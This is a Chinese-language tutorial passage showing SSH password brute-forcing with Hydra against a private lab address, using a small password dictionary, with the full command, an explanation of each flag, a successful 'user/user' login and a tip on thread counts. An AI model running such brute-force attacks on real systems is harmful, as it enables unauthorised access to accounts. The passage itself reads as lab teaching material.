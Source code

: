 

密码字典：我这里选用了码云上墨玉麒麟 收集的 字典库 中的 字典.txt



为什么选取 字典.txt 这个字典来爆破？



因为我这里只是出于演示目的，而字典.txt 这个字典只有 200 多条密码数据，符合我演示的目的



把 字典.txt 克隆到本地，重命名为 sshpasswd.list，存储在 /root/Work/ 目录中



开始爆破

hydra 192.168.56.12 ssh -l user -P /root/Work/sshpasswd.list -t 6 -V -f



命令详细：

- 攻击目标：192.168.56.12

- 使用的模块：ssh

- 爆破用户名：user (-l)

- 使用的密码字典：/root/Work/sshpasswd.list (-P)

- 爆破线程数：6 (-t)

- 显示详细信息 (-V)

- 爆破成功一个后停止 (-f)

爆破成功

![](https://upload-images.jianshu.io/upload_images/13156527-28500a5a906f7596.png?imageMogr2/auto-orient/strip|imageView2/2/w/897/format/webp)



![](../../../_resources/WEBRESOURCE063d41cb4c7e39a3f5c9e296f4db5277.png)

用户名和密码都是 user



验证



# 连接目标sshssh user@192.168.56.12

![](https://upload-images.jianshu.io/upload_images/13156527-087e334266219b2b.png?imageMogr2/auto-orient/strip|imageView2/2/w/842/format/webp)





在爆破过程中，要适当的使用爆破的线程数，因为ssh一般有连接数量的苛刻限制（比如连接数量不得超过4的），如果使用hydra默认的线程数，有些线程会连接失败，从而导致字典中有正确密码而无法爆破现象。


